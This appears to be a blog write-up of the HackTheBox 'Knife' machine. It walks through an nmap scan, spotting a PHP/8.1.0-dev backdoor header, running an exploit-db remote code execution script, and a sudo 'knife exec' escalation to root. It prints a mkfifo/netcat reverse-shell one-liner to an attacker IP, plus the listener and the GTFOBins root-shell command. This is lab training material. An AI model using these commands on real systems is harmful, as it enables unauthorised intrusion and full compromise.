 ```yaml
---
title: HackTheBox[KNIFE]
author: Anurag M
date: 2021-08-28 14:30:00 +0800
categories: [HackTheBox]
tags: [ hackthebox, sudo, knife, php, gtfobin ]
---
```


![knife](https://raw.githubusercontent.com/vincidadesigns/vincidadesigns.github.io/main/assets/img/posts/knife.png)

In this blog, we are going to discuss about pwning knife from hackthebox.

## About The Machine

| Name | OS | Difficulty | Creator |
|------|----|------------|---------|
| [Knife](https://www.hackthebox.eu/home/machines/profile/347)  | Linux | Easy | [MrKN16H7](https://www.hackthebox.eu/home/users/profile/98767) |

| Blood | User |
|-------|------|
| User | [JKR](https://www.hackthebox.eu/home/users/profile/77141) |
| Root | [JKR](https://www.hackthebox.eu/home/users/profile/77141) |

## Reconnaissance
### Nmap
```bash
┌─[v1nc1d4@V1NC1D4]─[~/Desktop/HTB/LAB/knife]
└──╼ $nmap -A -v 10.10.10.242                                                                           
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
From the Nmap scan, we can see that 2 ports are open. Port 22 and 80, which are standard SSH, HTTP ports respectively. Port 22 ie, SSH port needs a username and password, we do not have that (assuming brute force is not an option).
Port 80 is for web applications. We can find something interesting in port 80, HTTP methods.
You can read more about OPTIONS method [here](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/OPTIONS)

Since this is related to HTTP methods, we can use the `curl` command-line program to issue an OPTION request.

```bash
┌─[v1nc1d4@V1NC1D4]─[~/Desktop/HTB/LAB/knife]
└──╼ $curl -X OPTIONS http://10.10.10.242 -i
HTTP/1.1 200 OK
Date: Mon, 24 May 2021 00:20:43 GMT
Server: Apache/2.4.41 (Ubuntu)
X-Powered-By: PHP/8.1.0-dev
Vary: Accept-Encoding
Transfer-Encoding: chunked
Content-Type: text/html; charset=UTF-8
```
We have an interesting information for `X-Powered-By`

`X-Powered-By: PHP/8.1.0-dev`

We have an impressive PHP bug, a quick reserch on google, we could find that it is vulnerable to Remote Code Execution. The exploit is availble in [exploit db](https://www.exploit-db.com/).

Download the [Exploit](https://www.exploit-db.com/exploits/49933)

![img](https://raw.githubusercontent.com/vincidadesigns/vincidadesigns.github.io/main/assets/img/posts/exploit.png)

## Gaining foothold

Let's use the exploit. It will ask us for the target URL, as we append the target URL in the exploit, we will get shell as user.

```bash
┌─[v1nc1d4@V1NC1D4]─[~/Desktop/HTB/LAB/knife]
└──╼ $python3 exploit.py
Enter the full host url:
http://10.10.10.242/

Interactive shell is opened on http://10.10.10.242/ 
Can't acces tty; job crontol turned off.
$ id
uid=1000(james) gid=1000(james) groups=1000(james)
```
We do not have a stable shell. Let's take a reliable reverse shell.

```bash
┌─[v1nc1d4@V1NC1D4]─[~/Desktop/HTB/LAB/knife]
└──╼ $python3 exploit.py
Enter the full host url:
http://10.10.10.242/

Interactive shell is opened on http://10.10.10.242/ 
Can't acces tty; job crontol turned off.
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.15 4444 >/tmp/f
```

Start netcat listener on the specified port, we get a reliable reverse shell. Upgrade to a stable shell.

```bash
┌─[v1nc1d4@V1NC1D4]─[~/Desktop/HTB/LAB/knife]
└──╼ $nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.242] 48310
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("bin/bash")'
james@knife:/$ export TERM=xterm
export TERM=xterm
james@knife:/$ 
```
we can find the user flag under the directory `/home/james`

```bash
james@knife:~$ pwd
pwd
/home/james
james@knife:~$ ls
ls
user.txt
james@knife:~$ 
```

## Privilege Escalation

Let's move forward, checking sudo rights we can find that user `james` is allowed to run /usr/bin/knife as root.
```bash
james@knife:~$ sudo -l
sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
james@knife:~$ 
```
Let's see what [gtfobins](https://gtfobins.github.io) have to say about `knife`

![img](https://raw.githubusercontent.com/vincidadesigns/vincidadesigns.github.io/main/assets/img/posts/knife-gtfobin.png)

Let's get the root shell

```bash
james@knife:~$ sudo /usr/bin/knife exec -E 'exec "/bin/sh"'                               
sudo /usr/bin/knife exec -E 'exec "/bin/sh"'
# id
id
uid=0(root) gid=0(root) groups=0(root)
# 
```
Root flag can be found under the directory `/root`

```bash
# cd /root
cd /root
# ls
ls
delete.sh  root.txt  snap
# 
```

## Resources

| Topic | Url |
|-------|-----|
| HTTP OPTION Methods | [Click here](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/OPTIONS) |
| Exploit | [Click here](https://www.exploit-db.com/exploits/49933) |
| GTFOBins-knife | [Click here](https://gtfobins.github.io/gtfobins/knife/#sudo) |
